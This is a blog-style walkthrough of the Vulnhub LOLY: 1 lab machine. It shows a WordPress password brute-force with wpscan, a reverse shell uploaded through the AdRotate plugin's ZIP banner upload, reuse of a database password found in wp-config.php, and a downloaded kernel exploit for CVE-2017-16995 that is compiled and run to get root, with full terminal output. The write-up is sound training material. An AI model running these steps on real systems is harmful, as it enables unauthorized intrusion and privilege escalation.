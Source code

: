 ```yaml
---
layout: post
title:  "Vulnhub - LOLY: 1"
date:   2020-11-23 20:30:00 +1100
category: hacking
---
```


## Introduction
*Difficulty: Easy  
Tested: VMware Workstation 15.x Pro (This works better with VMware rather than VirtualBox)  
Goal: Get the root shell i.e.(root@localhost:~#) and then obtain flag under /root).*  

This is [LOLY: 1](https://www.vulnhub.com/entry/loly-1,538/) from Vulnhub. 

## Ports
We've got one port only - HTTP on Port 80.

## Wordpress
Really the only thing on the webserver is a Wordpress installation, and we find it easily with gobuster. **wpscan** reveals only a single user (*loly*), and easily finds the password:

{% highlight shell %}
root@kali:/opt/vulnhub/loly# wpscan --url http://192.168.1.117/wordpress -U 'loly' -P /usr/share/seclists/Passwords/probable-v2-top12000.txt

// stuff removed for brevity

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - loly / fernando                                                                                                                                                         
Trying loly / barcelona Time: 00:00:04 <==                                                                                                     > (345 / 12990)  2.65%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: loly, Password: fernando
{% endhighlight %}

So I logged in, expecting to perhaps upload a plugin zip file, or edit a theme or something. But, no.

We have several plugins (AdRotate, Helly Dolly and Akismet) - only AdRotate is 'unusual'. It's version 5.8.6.2. Searchsploit reveals SQLi vulnerabilities in several older versions - all version 3.x. 

We have several themes, including *Feminine Style* and *Virtue*, but these don't seem to be vulnerable. 

We can't upload a new plugin (the button to do so is missing), and I'm ... stuck.

After a while I consult a writeup to see what the move is. It turns out that the AdRotate plugin can be exploited by uploading a shell in a ZIP file format as a 'banner image'. PHP files are blacklisted but ZIP is okay; the plugin automatically unzips the file and places it in the banners directory:

>http://loly.lc/wordpress/wp-content/banners/rev-plugin.php

Navigating to this file triggers the shell.

I did the rest of the box by myself, but then I returned to this point. I tried googling for this exploit method, but the only references I found were in Loly writeups! And here's what they had to say about it:

1. w found a vulnerable plugin( AdRotate ) we upload a shell by compressing our payload a zip file as a new banners file  
2. i found a way to upload a shell & execute it  
3. Make sure that first, we need to upload the reverse shell as zip format  
4. For this, I saw that we have a plugin named "AdRotate" installed where we can upload a zip file 

Huh? None of these say *how* they knew this plugin was vulnerable, or how to exploit it, or provide a link to a CVE, blog post or anything else. I understand my writeups aren't always detailed; they aren't meant to be. But I don't quite understand how all of the ones I looked at just somehow magically knew that this method was available with AdRotate? Presumably there was an article about it somewhere; maybe my google-fu has failed me.

## Loly
Anyway, I'm on as *loly*. 

I run linpeas and find a password then *su loly*. 

{% highlight shell %}
[+] Searching Wordpress wp-config.php files
wp-config.php files found:
/var/www/html/wordpress/wp-config.phpdefine( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );
define( 'DB_HOST', 'localhost' );


www-data@ubuntu:/dev/shm$ which python3
which python3
/usr/bin/python3
www-data@ubuntu:/dev/shm$ python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@ubuntu:/dev/shm$ su loly
su loly
Password: lolyisabeautifulgirl

loly@ubuntu:/dev/shm$
{% endhighlight %}

## Root
Linpeas also says we have an older kernel, which is true.

I obtain and run the [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester) script:

{% highlight shell %}
loly@ubuntu:/dev/shm$ wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
<t-suggester/master/linux-exploit-suggester.sh -O les.sh                     
--2020-11-23 01:33:05--  https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.80.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.80.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 85113 (83K) [text/plain]
Saving to: ‘les.sh’

les.sh              100%[===================>]  83.12K  --.-KB/s    in 0.02s   

2020-11-23 01:33:05 (5.12 MB/s) - ‘les.sh’ saved [85113/85113]

loly@ubuntu:/dev/shm$ chmod +x les.sh
chmod +x les.sh
loly@ubuntu:/dev/shm$ ./les.sh
./les.sh

Available information:

Kernel version: 4.4.0
Architecture: x86_64
Distribution: ubuntu
Distribution version: 16.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS
{% endhighlight %}

It suggests several as highly probable. I usually don't have much luck with kernel exploits, but let's go:

{% highlight shell %}
[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},[ ubuntu=(16.04|17.04) ]{kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1
{% endhighlight %}

### SEND IT:

{% highlight shell %}
loly@ubuntu:/dev/shm$ wget https://www.exploit-db.com/download/45010
wget https://www.exploit-db.com/download/45010
--2020-11-23 01:36:25--  https://www.exploit-db.com/download/45010
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/txt]
Saving to: ‘45010’

45010                   [  <=>               ]  13.41K  45.2KB/s    in 0.3s    

2020-11-23 01:36:28 (45.2 KB/s) - ‘45010’ saved [13728]

loly@ubuntu:/dev/shm$ mv 45010 xx.c
mv 45010 xx.c
loly@ubuntu:/dev/shm$ gcc xx.c -o xx
gcc xx.c -o xx
loly@ubuntu:/dev/shm$ ./xx
./xx
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff880035047000
[*] Leaking sock struct from ffff8800355a21c0
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff8800356718c0
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff8800356718c0
[*] credentials patched, launching shell...
# id
id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare),1000(loly)
# cd /root
cd /root
# ls
ls
root.txt
# cat root.txt
cat root.txt
  ____               ____ ____  ____  
 / ___| _   _ _ __  / ___/ ___||  _ \ 
 \___ \| | | | '_ \| |   \___ \| |_) |
  ___) | |_| | | | | |___ ___) |  _ < 
 |____/ \__,_|_| |_|\____|____/|_| \_\
                                      
Congratulations. I'm BigCityBoy
{% endhighlight %}
